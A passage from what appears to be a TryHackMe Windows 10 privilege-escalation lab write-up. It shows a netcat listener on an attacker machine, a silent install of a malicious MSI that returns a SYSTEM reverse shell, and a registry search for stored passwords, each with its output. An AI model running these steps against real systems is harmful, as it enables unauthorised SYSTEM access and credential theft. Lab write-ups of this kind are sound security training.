 Start a listener on attacker:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nvlp 5555
listening on [any] 5555 ...
```

On target, let's install malicious exe:

```
C:\Users\user>msiexec /quiet /qn /i reverse.msi

C:\Users\user>
```

Enjoy our shell:

```bash
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49746
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


## passwords registry

The registry can be searched for keys and values that contain the word "password":

```bash
C:\Users\user>reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0fafd998-c8e8-42a1-86d7-7c10c664a415}
    (Default)    REG_SZ    Picture Password Enrollment UX

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{2135f72a-90b5-4ed3-a7f1-8bb705ac276a}
    (Default)    REG_SZ    PicturePasswordLogonProvider
..
..
..
..
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
    Password    REG_SZ

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteAccess\Policy\Pipeline\23
    (Default)    REG_SZ    IAS.ChangePassword

End of search: 258 match(es) found.

```
